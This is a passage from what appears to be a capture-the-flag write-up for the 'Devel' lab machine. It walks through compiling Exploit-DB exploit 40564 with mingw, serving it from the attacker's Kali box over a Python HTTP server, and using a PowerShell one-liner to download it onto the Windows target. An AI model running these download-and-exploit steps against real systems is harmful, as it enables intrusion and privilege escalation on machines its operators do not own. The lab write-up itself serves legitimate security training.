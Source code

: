 ![](../images/max/832/1*mP4lC3jgHcAIc3sqyrPE_Q.png)

Now, we need to compile the exploit. The compilation instructions are in the [exploitdb webpage](https://www.exploit-db.com/exploits/40564).

![](../images/max/768/1*5vBVQwS3cjvosENTY8RbYA.png)

If you don’t have mingw-w64 installed, install it.

```text
apt-get updateapt-get install mingw-w64
```

Compile it using the listed command.

```text
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Alright, we have a compiled exploit. Now what is left is to transfer the exploit to the target \(Devel\) machine.

Start up a server on the attack \(Kali\) machine.

```text
python -m SimpleHTTPServer 9005
```

Netcat doesn’t seem to be installed on Windows, but powershell is. So, we’ll use it to transfer the file from our server to a directory we can write to.

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.30:9005/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

